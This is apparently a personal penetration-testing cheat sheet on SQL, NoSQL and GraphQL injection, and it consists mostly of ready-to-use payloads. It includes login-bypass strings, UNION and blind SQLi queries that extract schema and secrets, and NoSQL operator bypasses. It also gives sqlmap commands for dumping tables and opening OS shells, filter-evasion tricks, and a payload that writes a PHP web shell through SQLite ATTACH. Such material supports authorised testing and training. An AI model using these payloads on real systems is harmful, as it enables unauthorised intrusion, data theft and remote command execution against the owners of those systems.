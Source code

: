 # Detection
### Authentication Bypass
```bash
admin';%00
admin' --
admin'/*
admin' or '1'='1
admin' or '1'='1'--                                     # a space is needed after --
admin' or '1'='1'#
admin' or '1'='1'/*
' or ( 1=1 and username='admin');
{"username":"admin","password": {"password": 1}}        # nodeJS + mysql
```
### Classic SQLi
- Insert `'`, `"`, `\` into every user input and look for errors or other anomalies.
  ```
  '#                       # also replace all ' with "
  '--                      # a space is needed after -- or --+
  '; select 1=1; --
  \'; select 1=1; --       # scape filtering of '
  '+OR+1=1--             
  ```
##### UNION based
- *Default* = *Test1* ≠ *Test2*
  - Default
    ```sql
    page/?id=54
    ```
  - Test1 → One of these payloads has same result with *default* test.
    ```sql
    page/?id=54  order by 1      
    page/?id=54' order by 1#       
    page/?id=54" order by 1#
    ```
  - Test2 → Use the OK payload from *Test1* to run *Test2*.
    ```sql
    page/?id=54  order by 1000
    page/?id=54' order by 1000#
    page/?id=54" order by 1000#
    ```
- Extract data → Firstly find number of columns by changing the number of `order by x`, then define the position of data in page by `union select 1,2,3,...`.
  ```sql
  a' union select 1, database()#
  a' union select 1, group_concat(table_name) from information_schema.tables where table_schema = 'database_name'#
  a' union select 1, group_concat(column_name) from information_schema.columns where table_schema = 'database_name' and table_name = 'table_name'#
  a' union select 1, secret from 'column_name'#
  ```

### Blind SQLi
##### Boolean based
- *Default* = *Test1* ≠ *Test2*
  - Default
    ```sql
    page/?id=54
    ```
  - Test1
    - In string input, for search-boxes, we should fix the query with `%`. (because of using `like '%INPUT%'`) → `test%' and 1=1#` 
    ```sql
    page/?id=54  and 1=1
    page/?id=54' and '1'='1        # ' and 1=1#
    page/?id=54" and "1"="1
    ```
  - Test2
    ```sql
    page/?id=54  and 1=2
    page/?id=54' and '1'='2
    page/?id=54" and "1"="2
    ```
##### Time based
- Check timing difference among these HTTP requests:
  ```sql
  page/?id=54  and sleep(10)
  page/?id=54' and sleep(10)#
  page/?id=54" and sleep(10)#
  ```

# Command Injection via SQLi
- Put this payload in `X-Forwarded-For` header, then open _http://188.166.175.58:32430/lol.php?cmd=ls_
  ```bash
  blahblah','blahblah');ATTACH DATABASE '/www/lol.php' as lol;CREATE TABLE lol.pwn(dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
  ```
# NoSQL Injection
### Basic authentication bypass
- In URL
  ```bash
  username[$ne]=toto&password[$ne]=toto
  username[$regex]=.*&password[$regex]=.*
  username[$exists]=true&password[$exists]=true
  ```
- In JSON
  ```bash
  {"username": {"$ne": null}, "password": {"$ne": null} }
  {"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
  {"username": {"$gt": undefined}, "password": {"$gt": undefined} }
  ```
### User/Pass Enum in MongoDB
- Abuse `[$regex]` with _https://github.com/C4l1b4n/NoSQL-Attack-Suite_.
  - Change the value of `requests_delay` from `1` to `0.01`.
  ```bash
  python3 nosql-login-bypass.py -t http://167.99.85.216:30389/api/login -u username -p password -m POST -c 200 -s admin
  ```

# GraphQL Injection
- Modify mutation
  ```bash
  # Normal request
  {"query":"mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"admin"}}

  # Maliciuos request
  {"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"admin"}}
  ``` 

# SQLMap
- SQLMap can not handle requests that have CSRFToken.
- https://github.com/sqlmapproject/sqlmap/wiki/Usage
  ```bash
  python3 sqlmap.py -r requestFile --technique=B -p [parameter] --level=5 --proxy http://127.0.0.1:8080 --sql-shell

  python3 sqlmap.py -r requestFile --batch --dbs
  python3 sqlmap.py -r requestFile --batch -D level3 --tables
  python3 sqlmap.py -r requestFile --batch -D level3 -T users --dump

  python3 sqlmap.py -r requestFile --batch -p user --tamper=charunicodeescape --dbs -t 10

  --random_agent           # Bypass WAF and IPS
  --tamper=space2dash, hex2char
  --level                  # Also check referrer, cookie
  --risk                   # Also check INSERT, UPDATE
  --form                   # Check all form's input
  --technique=B            # B (Blind Boolean), T (Blind Time-based), E (Error-based), U (Union)
  --sql-shell
  --os-shell
  --os-cmd=ls
  ```

# ghauri
- https://github.com/r0oth3x49/ghauri

# Tips
- In Bug-Bounty we just have time-based.
- Find filtered character (search for two character with Burp Cluster-Bomb)
  ```python
  with open('all-chars.txt', 'w') as f:
     for number in range(0, 127):
        f.write(chr(number) + "\n")
     f.close()
  ```
- `'` and `"` are filtered  →  Use HEX-encoding (only for strings and NOT SQL queries)
  ```sql
  information_schema.columns where table_name = 'people'
  information_schema.columns where table_name = 0x70656F706C65
  ```
- **space** is filtered  →  `/**/`
- `#`  →  `%23` (In GET requests, as browsers doesn't send fragment sign (`#`) to web server)
- Check for non-recursive filters like **oorrder**, **SEselectLECT**, **UNunionION**.
- `HEX` encoding can be used only in strings.

# Resources
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
- https://book.hacktricks.xyz/pentesting-web/sql-injection
- https://book.hacktricks.xyz/pentesting-web/nosql-injection
